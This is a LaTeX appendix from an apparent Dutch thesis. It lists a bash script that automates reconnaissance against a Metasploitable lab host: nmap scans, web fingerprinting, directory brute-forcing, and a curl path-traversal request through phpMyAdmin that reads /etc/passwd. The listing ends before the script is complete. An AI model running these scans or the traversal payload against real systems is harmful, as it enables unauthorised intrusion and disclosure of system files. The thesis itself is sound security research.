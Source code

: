 \chapter{}%
\label{app:recon-script}

\section{Reconnaissance Bash Script}
Hieronder wordt het bash-script weergegeven dat is gebruikt voor de betrouwbaarheid van iedere comando to berekeken van de manuele reconnaissance methode, inclusief tijd- en CPU-metingen, zoals beschreven in het hoodstuk ~\ref{ch:Proof of Concept} Proof of Concept.

\begin{lstlisting}[language=bash, basicstyle=\footnotesize\ttfamily, numbers=left, numberstyle=\tiny, breaklines=true, caption={Bash-script voor geautomatiseerde reconnaissance}, label={lst:recon-script}]

#!/bin/bash

# Script om reconnaissance-commando's te automatiseren met tijd- en CPU-metingen

OUTPUT_DIR="recon_results"
mkdir -p "$OUTPUT_DIR"

ERROR_LOG="$OUTPUT_DIR/error_log.txt"
touch "$ERROR_LOG"

TARGET="192.168.56.11"
TIMEOUT=400

# Commandos per categorie (gebaseerd op Excel, exclusief interactieve commandos)
declare -A COMMANDS=(
    ["Netwerk- en Hostontdekking"]="netdiscover -i eth0
fping -a -g 192.168.56.0/24
dig metasploitable.localdomain
dig @$TARGET version.bind txt chaos"

    ["Poort- en Service-analyse"]="nmap -sS -sV -O -T4 $TARGET
nmap -p- $TARGET
nmap -sT $TARGET
nmap -sU -p 53,69,161 $TARGET
nmap -sA $TARGET
wafw00f http://$TARGET/
nmap --script=http-open-proxy -p80 $TARGET
nmap -sV -p 3306,5432,8180 $TARGET --script=banner
nmap -sV -O --version-all $TARGET
telnet $TARGET 23
nmap -sT -p 21-25,80,445,3306 $TARGET --reason"

    ["Web Reconnaissance"]="whatweb http://$TARGET
whatweb --log-object @ http://$TARGET
curl -I http://$TARGET/
nmap --script=http-methods,http-enum,http-headers,http-title -p80 $TARGET
wget http://$TARGET/index.php -O index.html
gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/dirb/common.txt
dirb http://$TARGET/
dirsearch -u http://$TARGET -e .php,.bak,.orig
ffuf -u http://$TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401,403
feroxbuster -u http://$TARGET -x php,bak,old
curl -s http://$TARGET/phpMyAdmin/
curl -v \"http://$TARGET/phpMyAdmin/index.php?target=db_sql.php%253f/../../../../../../etc/passwd\"
curl http://$TARGET/mutillidae/
curl http://$TARGET/dvwa/login.php
curl http://$TARGET/twiki/bin/view
wget http://$TARGET/phpMyAdmin/readme -O readme.txt
joomscan --url http://$TARGET"


\end{lstlisting}
